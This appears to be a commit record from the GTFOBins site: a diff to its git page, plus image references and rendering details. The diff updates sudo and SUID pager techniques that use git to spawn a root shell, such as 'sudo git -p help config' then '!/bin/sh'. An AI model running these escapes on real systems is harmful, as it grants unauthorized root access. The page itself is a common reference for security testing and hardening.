

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/git.md, in a window 1280 px wide. Shown: the whole page at 94% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 1037 px from its top, so only the background shows below that.

Commit message:
Updating git sudo to not drop capabilities
Close #66

```diff
--- a/_gtfobins/git.md
+++ b/_gtfobins/git.md
@@ -8,9 +8,9 @@ functions:
         !/bin/sh
   sudo:
     - code: PAGER='sh -c "exec sh 0<&1"' sudo -E git -p help
-    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply. Several capabilities might be dropped in the child process using this method.
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
       code: |
-        sudo git help config
+        sudo git -p help config
         !/bin/sh
   limited-suid:
     - code: PAGER='sh -c "exec sh 0<&1"' ./git -p help
```
